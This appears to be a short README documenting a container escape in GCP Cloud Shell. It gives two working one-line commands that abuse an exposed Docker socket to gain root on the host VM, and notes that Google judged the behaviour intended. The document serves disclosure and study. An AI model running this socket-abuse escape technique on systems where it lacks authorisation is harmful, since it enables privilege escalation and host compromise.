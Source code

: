 # GCP Cloud Shell Docker Escape
This allows anyone to access the host VM that is running the Cloud Shell Docker container as the root user. Just run one of the following commands from within your GCP Cloud Shell to escape it. This was originally reported to Google Security and it was determined to not be a security risk. The host is isolated from other GCP users and as of recently they even let you use your own Docker container (based off of Cloud Shell) for your own Cloud Shell, so the escape is working as intended.

## v1 (The original version)
*Source:* https://twitter.com/SpenGietz/status/1166752505889316864
*Command:* sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
![Example of the original Docker escape](./images/EscapeExample.jpg)
*Note:* It was pointed out by another user on Twitter (@Quintus23M) that the command above is not actually a full Docker escape. It essentially mounts the host file system within the container, giving you access to the host, but not giving you full root access to it. That user kindly responded with an alternative command to fully escape the container and be the root user on the host VM (v2 below).

## v2 (The better version)
*Source:* https://twitter.com/Quintus23M/status/1166828814091112449
*Command:* sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
	- I personally replace "debian" with "ubuntu" and "sh" with "/bin/bash", but it's all preference.
![Example of the better Docker escape](./images/BetterEscapeExample.jpg)

